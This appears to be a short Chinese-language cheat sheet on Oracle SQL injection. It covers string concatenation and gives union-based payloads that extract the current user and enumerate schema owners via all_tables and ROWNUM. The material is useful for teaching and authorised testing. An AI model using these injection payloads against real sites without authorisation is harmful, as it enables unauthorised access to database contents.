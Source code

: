 ![image-20210719170555262](websafe/image-20210719170555262.png)

Oracle数据库使用||进行字符串的拼接 `'a'||'b'`

#### 联合查询

```sql
//当前数据库的用户名：
#SYS_CONTEXT('USERENV','CURRENT_USER')
#payload:
?id=-1 union select 1,SYS_CONTEXT('USERENV','CURRENT_USER'),2,3 from dual -- +
?id=-1 union select 1,user,3,4 from user_tables -- +
```

```sql 获取数据库名称
// 获取所有的用户
select * from all_tables;
select owner from all_tables where rownum=num and owner not in ('sys');
#payload:
?id=-1 union select 1,owner,2,3 from all_tables where rownum=1 and owner not in ('SYS') -- +
#payload(1):
id=-1 union select owner from (select owner,ROWNUM as limit from (select DISTINCT(owner) from sys.all_tables)) where limit=1--
#payload(2):
select owner,rownum as a from (select distinct(owner) from sys.all_tables) where a = 2
注：从查询出的所有库名去重然后查询出库名和行号，行号作为条件
```

![image-20210719111719241](websafe/image-20210719111719241.png)

